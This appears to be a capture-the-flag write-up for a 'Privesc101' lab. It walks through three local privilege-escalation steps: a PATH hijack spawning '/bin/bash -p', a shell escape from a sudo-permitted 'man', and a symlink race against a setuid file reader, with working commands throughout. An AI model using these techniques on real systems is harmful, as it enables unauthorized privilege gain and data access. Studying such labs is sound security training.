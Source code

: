 ![](images/image1.png)

**Privesc101 Write-Up**

Privesc101 was the third pwn challenges, based on privilege escalation. I started with ssh into the machine, and did some enumerations. Remember that the flag is at location */home/user3/flag*. From user0 point of view, we were given a file that seems to run ls command in /home/user3 directory. 

***===== STEP 1 =====***

First, I tried to directly get the flag, so I created a directory */tmp/storm*, and created a new script, named *ls*. I typed the following code:
```
#!/bin/bash
cat /home/user3/flag
```
I also changed PATH environment variable to point to my directory: 
```
PATH=/tmp/storm:$PATH
```
Finally, I executed the script but as you may have guessed, it didn't work for a specific reason: we didn't have the right to read this file. Let's bypass this first security. In order to upgrade, I commonly used the same technique shown before except that I replaced the *cat /home/user3/flag* with */bin/bash -p* to force an upgraded shell on the machine (as user1 has the right on stage0 script):

![](images/image2.png)

***===== STEP 2 =====***

The second step is pretty straightforward. Indeed, first, I checked my actual privileges with this command:
```
user0@privesc101:/tmp/storm$ sudo -l
User user0 may run the following commands on privesc101:
    (user0 : user2) NOPASSWD: /usr/bin/man ls

```
and then I upgraded to user2 with the following trick:
```
user0@privesc101:/tmp/storm$ sudo -g user2 /usr/bin/man ls
```
When you're in man interface, you can type ```!bash``` to gain your shell as with user2  group's privileges.
```
user0@privesc101:/tmp/storm$ groups
user2 user1 user0
```

***===== STEP 3 =====***

The hardest step of the challenge was, without a doubt, this one. At */home/user2* location, there were a C file and its executable. First interesting thing to notice is the file's permissions:
```
user0@privesc101:/home/user2$ ls -l
total 16
-r-S--s--- 1 user3 user2 9008 May 13 23:59 stage2
-r--r----- 1 root  user2  538 May 13 23:58 stage2.c
```
We can deduct that if we could modify the program's behavior, we will have the right to read the flag file. Let's take a glance at the C file:
```
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
	
	FILE *f;
	
	struct stat buf;
	if (argc < 2) {
		printf("Usage : ./stage2 path\n");
		return -1;
	}

	if (stat(argv[1], &buf) != 0 || buf.st_uid != getuid()) {
		printf("You must own the file.\n");
		return -2;
	}
	
	f = fopen(argv[1], "r");
	if (f == NULL)
		return -3;
	char c;
	printf("%s\n", argv[1]);
	while((c = fgetc(f)) != EOF)
  		printf("%c", c);
  	fclose(f);
  	return 0;
}
```
It reminds me of a challenge... The program takes a path in input, to read the file given if the user who inputs the path has the permissions to read it. You can see in the second conditional branch, that the program checks if we are the owner of the file with a *getuid()* function. The exploit will be a race condition with a symbolic link. The race condition allows us to read the file previously linked rapidly (the exploitation is very fast), as the binary checks our uid, there will be a little time where the program will let us read the file. Indeed, as we will delete the link at the end, it will mislead that the file has been linked to a file that we do not have permission to read (the race condition will always and instantly create our file, it will then print our flag). 

```
f = fopen(argv[1], "r"); 
if (f == NULL) return -3; char c; 
	printf("%s\n", argv[1]); while((c = fgetc(f)) != EOF) 
	printf("%c", c);
```
In this part of code, magic happened.  This is HERE that the file that we give in input (in this case /tmp/storm/flag.txt that I created) can be replaced with the symlink, before it starts to read it. In one command line,  I typed:

```
user0@privesc101:/home/user2$ while true; do ./stage2 /tmp/storm/flag.txt; done
```
to read the file and in another terminal:
```
user0@privesc101:/home/user2$ while true; do ln -sf /home/user3/flag /tmp/storm/flag.txt && rm /tmp/storm/flag.txt && touch /tmp/storm/flag.txt; done
```
The rm && touch file at the end of the last command deletes the file and creates another one. This step is important otherwise the binary will see that we do not have the right to read the flag as the file was not created by us. At the end of the day, we get the flag :D

![](images/image3.png)